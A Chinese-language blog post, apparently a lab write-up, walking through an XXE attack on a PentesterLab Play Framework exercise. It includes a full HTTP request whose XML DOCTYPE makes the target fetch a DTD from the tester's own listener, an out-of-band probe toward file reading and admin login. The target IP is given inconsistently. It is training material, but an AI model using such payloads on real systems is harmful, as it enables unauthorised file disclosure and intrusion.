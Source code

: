 ```yaml
---
title: play渗透框架XXE实体攻击
date: 2017-04-21 14:39:53
categories: Web安全
tags:
    - XXE
---
```


## 简要介绍

本文记录的是利用play渗透框架学习XXE实体攻击的过程，实验环境来自于[pentesterlab Play XML Entities](https://pentesterlab.com/exercises/play_xxe), 下载页面的iso, 用虚拟机软件PD或vmvare安装即可。打开虚拟机，获取虚拟机ip地址，然后访问就可以实验了，并不需要开启服务等其他操作，非常简单易用。同时还配备了课程讲解[https://pentesterlab.com/exercises/play_xxe/course](https://pentesterlab.com/exercises/play_xxe/course).

Play Framework是一个web的框架，在这个框架中，开发者可以快速的使用java或者scala编译开发web应用。这样可以有序管理代码，并且url可以像Ruby-on-Rails一样被映射。就像Ruby-on-Rails，当收到Http请求时，Play框架管理多种文本类型。



## 信息获取

目标ip: `10.211.15.4`, 访问如下:

{% asset_img login.png %}

练习的目标是: `读任意文件`, `获取secret_url`, `login as admin`。

## 实体攻击

### 探测外部实体请求

首先测试目标服务器是否解析XML内容，并请求外部实体。本地开启服务器，接收来自目标服务器的外部实体请求：`python -m SimpleHTTPServer 8000`, 然后burp发送如下请求

```
POST /login HTTP/1.1
Host: 10.211.55.14
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://10.211.55.14/login
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 96

<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://10.211.55.2:8000/test.dtd">
<foo>&e1;</foo>
```

本地监听到如下内容，表明目标服务器解析XML内容，并发出了外部实体请求。
